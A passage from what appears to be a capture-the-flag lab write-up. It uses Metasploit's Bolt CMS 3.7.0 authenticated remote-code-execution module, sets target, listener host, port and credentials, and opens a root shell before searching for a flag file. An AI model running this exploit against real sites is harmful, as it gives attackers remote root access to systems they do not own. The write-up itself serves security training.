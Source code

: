 We'll use metasploit to find and run the exploit.

Note:
: Before using metasploit, you might need to update it using `apt update; apt install metasploit-framework` command.

Now lunch `msfconsole` and search for the EDB-ID [REDACTED]:

```console
msf6 > search [REDACTED]

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/webapp/[REDACTED]  2020-05-07       excellent  Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/bolt_authenticated_rce
```

In order to use that module we need to run the `use 0` command, where the number is the number of the module in the list above.

Now we can use `options` command to see what parameters are required before we lunch the attack, `set` them and lunch the attach using `exploit` command:

```console
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS bolt
RHOSTS => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST 10.9.137.76
LHOST => 10.9.137.76
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD boltadmin123
PASSWORD => boltadmin123
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
USERNAME => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LPORT 3344
LPORT => 3344
msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit 
```

Looks like we have an active shell. Use [whoami](https://en.wikipedia.org/wiki/Whoami) or `id` commands to check which user we are using - we are `root`!
You might want to run the `shell` command and switch to **bash shell** if you're more comfortable with it.
Now we need to search for the flag using. the **find** command is a quick and easy way to find any file or directory. In our case we'll use the `find / -type f -name 'flag.txt' 2>/dev/null` command, which breaks down to:
* `/` is the root path to start the scan from
* `-type f` search for file (`d` for directory)
* `-name 'flag.txt'` file name *flag.txt*. we can use wildcard as well, e.g. '\*flag\*'
* `2>/dev/null` this will produce a cleaner output as it will discard errors, such as permission errors.
